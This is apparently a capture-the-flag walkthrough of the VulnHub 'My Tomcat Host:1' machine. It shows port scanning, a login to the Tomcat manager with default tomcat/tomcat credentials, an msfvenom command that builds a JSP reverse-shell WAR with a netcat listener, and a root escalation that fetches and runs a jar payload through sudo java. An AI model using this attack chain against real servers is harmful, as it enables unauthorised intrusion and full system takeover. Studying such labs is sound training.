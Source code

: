 # My Tomcat Host:1 - VulnHub

[My Tomcat Host:1 VulnHub link](https://www.vulnhub.com/entry/my-tomcat-host-1,457/)

### arp scan to find out our machine ip address on the network
![arp-scan](images/MyTomcatHost-1/arp-scan.png)

we found out our target ip address is 192.168.56.102

## Nmap
first we need to check what ports and services are available for us in the target machine using nmap tool:
![nmap-scan](images/MyTomcatHost-1/nmap-scan.png)

**command exaplain:**

**nmap** - network scanner tool used to discover hosts and services on machines.

**-sC** - preforming script scan using default scripts.

**-sV** - preforming service version detection.

**-oA** - output in all formats.

**-Pn** - treating the host as online - skip host discovery (it was necessary for nmap scan on this machine).

it is recommanded to scan the machine at the background for all ports while enumerating the machine, becuase all ports scan found the same ports I wont show it.

from the nmap scan we discovered 2 ports are open:

*port 22* - ssh OpenSSH.

*port 8080* - http Apache Tomcat 9.0.31.

## Apache Tomcat:
if we browse to the the link:
 http://192.168.56.102:8080/

we got the Tomcat's welcome screen:
![tomcat-welcome-screen](images/MyTomcatHost-1/tomcat-welcome-screen.png)

if we try to enter the Manager App we get an authentication request:
![tomcat-auth-req](images/MyTomcatHost-1/tomcat-auth-req.png)

after searching the default username and password of tomcat version 9/8 on google this worked:

username: tomcat

password: tomcat

and we got in!
![tomcat-manager](images/MyTomcatHost-1/tomcat-manager.png)

now from the manager page we can uplaod new service applications to the server.

lets upload a java WAR file reverse shell to get a shell to the machine.

## Reverse shell:
first let's create a reverse shell in java to WAR file using msfvenom and run netcat listener on port 1234:
![reverse-shell-create](images/MyTomcatHost-1/reverse-shell-create.png)

**command explain:**

**msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.102 LPORT=1234 -f war > shell.war**

**msfvenom** - rapid7 (creators of metasploit tool) tool for payload generation.

**-p** - payload to use.

**LHOST** - attacker ip address.

**LPORT** - attacker ip port.

**-f** - output format.
generating payload into shell.war file.

**nc -lvp 1234**
**nc** - netcat, tcp and udp tool for connections and listens.
**-l** - listen for connections.
**-v** - verbose output.
**-p** - port number.

let's upload the war file into the tomcat website using the service war upload in the manager page:
![upload-war-file](images/MyTomcatHost-1/upload-war-file.png)

if we browse to the service url: http://192.168.56.102:8080/shell/

we got a shell!

let's get a normal shell using python pty:
![foothold-shell](images/MyTomcatHost-1/reverse-shell-foothold.png)

let's see our sudo allowed commands:
![sudo-commands](images/MyTomcatHost-1/sudo-commands.png)

we can run java as root!

lets use the same method we got the reverse shell to get a root access but this time we create a jar file.

we send the jar file to the target machine using python SimpleHTTPServer and wget in tmp folder ( we got write permissions), using metasploit to connect to the reverse shell:
*on the attacker machine:*
![reverse-shell-send](images/MyTomcatHost-1/create-shell-send.png)
*on the target machine:*
![wget-revershell](images/MyTomcatHost-1/wget.png)

*fire up metasploit and set up the exploit:*
![msf](images/MyTomcatHost-1/msf.png)
*run the jar file in th target machine:*
![run-jar](images/MyTomcatHost-1/run-jar.png)

and we got root access!!
![root](images/MyTomcatHost-1/root.png)

